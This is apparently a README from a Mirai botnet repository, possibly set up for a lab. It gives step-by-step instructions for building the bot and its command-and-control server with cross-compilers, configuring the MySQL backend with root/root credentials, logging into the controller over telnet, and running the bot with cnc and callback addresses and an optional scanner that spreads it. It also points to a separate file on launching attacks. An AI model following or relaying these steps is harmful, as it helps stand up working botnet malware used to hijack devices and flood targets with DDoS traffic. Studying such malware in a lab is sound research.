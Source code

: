 #Setup Instructions (for x86/x64 bot)

###For NCL
We'll need to update the `sources.list` to get `apt-get` working (only applies to cnc). 

1. go to `/etc/apt`
2. rename `sources.list` to `sources.list.bak`
3. create a new `sources.list` and add the following lines to it
  ```
  ###### Ubuntu Main Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 

  ###### Ubuntu Update Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  ```
4. now `apt-get` should work

###Installation Instructions for Running cnc (assumes you have already built it)
1. install mysql: `sudo apt-get install mysql-server mysql-client`
  * make sure you set the root password as `root` during the installation
2. run [scripts/db.sql](scripts/db.sql) in the mysql shell
  ```
  <in the scripts folder>
  mysql -u root -p
  <enter password>
  
  source db.sql;
  \q
  ```
3. to make sure you are not kicked out of the session, add these two lines under the `[mysqld]` section in `/etc/mysql/my.cnf` (you will probably need root access)
  ```
  [mysqld]
  
  ...
  
  wait_timeout = 86400
  interactive_timeout = 86400
  ```
4. restart mysql: `sudo service mysql restart`
5. run the cnc: `sudo ./cnc`
6. in order to access the cnc, use `telnet localhost` (assumes you are telnet-ing on the cnc machine)
7. use `username: root` and `password: root` to login (as defined in [scripts/db.sql](scripts/db.sql))
8. refer to [attack-instructions.md](attack-instructions.md) for how to launch an attack

###Instructions for Running bot (assumes you have already built it)
1. run the bot: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>` (assumes you have built the debug version)
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 0`
  * you can use [mirai/demo-bot.sh](mirai/demo-bot.sh) that automatically finds the ip address of eth0 (be sure to change the hardcoded cnc and callback ip addresses)

###Installation Instructions for Building
1. install golang
  ```
  sudo add-apt-repository ppa:ubuntu-lxc/lxd-stable
  sudo apt-get update
  
  sudo apt-get install golang
  ```
2. run [scripts/cross-compile.sh](scripts/cross-compile.sh) (needs root)
3. add export paths in `~/.bashrc`
  ```
  add the following lines:
  
  export PATH=$PATH:/etc/xcompile/i586/bin
  export PATH=$PATH:/usr/lib/go/bin
  export GOPATH=$HOME/Documents/go
  ```
4. install git: `sudo apt-get install git`
5. install go packages
  * `go get github.com/go-sql-driver/mysql`
  * `go get github.com/mattn/go-shellwords`
6. build using [mirai/build.sh](mirai/build.sh)
  * e.g. `mirai/build.sh debug telnet`
  * only the debug, telnet version has been tested
  * output files will be in the `debug` folder, with `cnc` and `mirai.dbg` (the bot)
